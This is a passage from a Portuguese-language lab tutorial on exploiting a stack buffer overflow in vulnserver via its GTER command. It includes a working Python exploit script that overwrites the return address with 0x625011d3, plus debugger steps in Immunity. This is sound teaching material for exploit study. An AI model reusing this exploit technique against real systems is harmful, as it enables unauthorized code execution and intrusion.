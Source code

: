 ![Enumaração do comando.](/std/winbof/winbof-28.png)

Encontramos nossos 9 bons endereços de retorno.

## INSERINDO O ENDEREÇO DE RETORNO NO PAYLOAD

Em posse do endereço de retorno, vamos adicionar um deles no lugar de nossos B, eu vou utilizar o 625011d3, porém a notação para envio tem que ser em little indian, portanto os bytes tem ordem inversa, ficando: `\xd3\x11\x50\x62`.

Vamos atualizar o exploit.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.26"
porta = 9999

# payload a ser enviado
offset = 147

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset # buffer
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"C" * (309 - 147 - 4) # segundo buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado!")
```

Precisamos reiniciar o vulnserver no Immunity, mas antes de rodar nosso script, vamos setar um breakpoint exatamente no nosso endereço de retorno: 625011d3.
(clicando em “Go to address in Disassembler”, inserindo nosso endereço de retorno e logo em seguida pressionando F2).
Agora podemos rodar nosso script.
